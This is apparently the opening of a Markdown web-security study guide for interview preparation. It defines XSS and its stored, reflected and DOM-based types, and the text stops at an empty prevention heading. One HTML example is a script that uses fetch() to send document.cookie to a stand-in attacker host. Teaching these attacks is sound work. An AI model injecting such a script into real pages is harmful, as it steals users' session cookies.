 # 🔐 Web Security Deep Dive  
**XSS, CSRF, SQL Injection, Clickjacking & Security Headers**

This document provides a **comprehensive, in-depth explanation** of essential **web security vulnerabilities** — critical for **secure coding**, **backend development**, and **senior engineering roles**.

Each section includes:
- ✅ Clear definition
- ✅ How the attack works
- ✅ Real-world examples
- ✅ Prevention strategies
- ✅ Interview-ready answers

---

## 1. What is XSS (Cross-Site Scripting)? How can you prevent it?

> **XSS (Cross-Site Scripting)** is a vulnerability where an attacker **injects malicious scripts** into a web page viewed by other users.

The script runs in the **victim’s browser** — stealing cookies, session tokens, or defacing sites.

---

### 🔹 1.1 Types of XSS

| Type | How It Works |
|------|-------------|
| **Stored XSS** | Malicious script saved in DB (e.g., comment) → served to all users |
| **Reflected XSS** | Script reflected in response (e.g., search query) → victim clicks link |
| **DOM-based XSS** | Client-side JS writes user input to DOM without sanitization |

---

### 🔹 1.2 Example: Stored XSS

```html
<!-- User submits this as a comment -->
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

✅ Stored in DB → every user who views the page runs it.

---

### 🔹 1.3 Prevention
